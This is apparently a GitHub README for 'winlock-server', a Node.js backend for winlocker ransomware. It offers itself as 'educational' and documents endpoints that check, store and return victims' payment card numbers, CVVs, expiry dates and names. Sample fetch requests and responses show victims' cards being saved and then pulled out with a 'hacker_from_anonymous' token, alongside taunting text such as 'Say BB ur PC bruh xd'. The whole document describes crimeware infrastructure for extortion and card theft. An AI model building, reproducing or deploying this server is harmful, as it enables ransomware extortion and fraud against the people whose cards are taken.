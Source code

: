 <br>
<h1 align="center">winlock-server</h1>
<div align="center">
  
<br>

[![Badge](https://img.shields.io/badge/Uses-Node.js-green.svg?style=flat-square)](1)
[![Badge](https://img.shields.io/badge/Open-Source-important.svg?style=flat-square)](1)
[![Badge](https://img.shields.io/badge/Made_with-Love-ff69b4.svg?style=flat-square)](1)
    
<br>

</div>

## Installation:
-   Install [Node.js](https://nodejs.org/en/),
-   Clone this repo: `git clone https://github.com/Ythosa/whynote`,
-   Install dependences by writing in console: `npm install`,
-   Write in console: `npm start`.

<br>

## Description:
-    Opensource Server on `Node.js` for Winlock Development Practice;
-    Designed for educational purposes only, the author is not responsible for how you use it;
-    The `winlock-server` can:
     *  check the card data entered by the user;
     *  save card data entered by the user;    
     *  return card data entered by the user.

<br>

## Documentation: 

### Http request to check the map and save it to the database:

~-~ Request sample:

``` javascript
var raw = JSON.stringify({
  "digits":"4111111111111111",
  "cvv":"111",
  "date":"M/YY",
  "owner":"Sername Name"
});

var requestOptions = {
  method: 'POST',
  headers: myHeaders,
  body: raw,
  redirect: 'follow'
};

fetch("http://localhost:3000/card", requestOptions)
  .then(response => response.text())
  .then(result => console.log(result))
  .catch(error => console.log('error', error));
  
  ```
  
~-~ Response sample: 

```json
{
    "ok": true,
    "message": "Successful! Download our winlocker again!"
}
```

### Http request to get cards from BD:

~-~ Request sample:

```javascript 
var raw = JSON.stringify({"token":"hacker_from_anonymous"});

var requestOptions = {
  method: 'POST',
  headers: myHeaders,
  body: raw,
  redirect: 'follow'
};

fetch("http://localhost:3000/get_cards", requestOptions)
  .then(response => response.text())
  .then(result => console.log(result))
  .catch(error => console.log('error', error));
```

~-~ Response sample:

```json
[
    {
        "digits": "4111111111111111",
        "cvv": "111",
        "date": "M/YY",
        "owner": "SERNAME NAME",
        "card_details_error": null
    }
]
```

### Http request to get server information:

~-~ Request sample:

```javascript
var requestOptions = {
  method: 'GET',
  redirect: 'follow'
};

fetch("http://localhost:3000/", requestOptions)
  .then(response => response.text())
  .then(result => console.log(result))
  .catch(error => console.log('error', error));
```

~-~ Response sample:

```html
<!DOCTYPE html>
<html>

	<head>
		<title>winlock</title>
		<link rel="stylesheet" href="/stylesheets/style.css">
	</head>

	<body>
		<h1>WinLock API Server</h1>
		<p>Say BB ur PC bruh xd</p>
	</body>

</html>
```
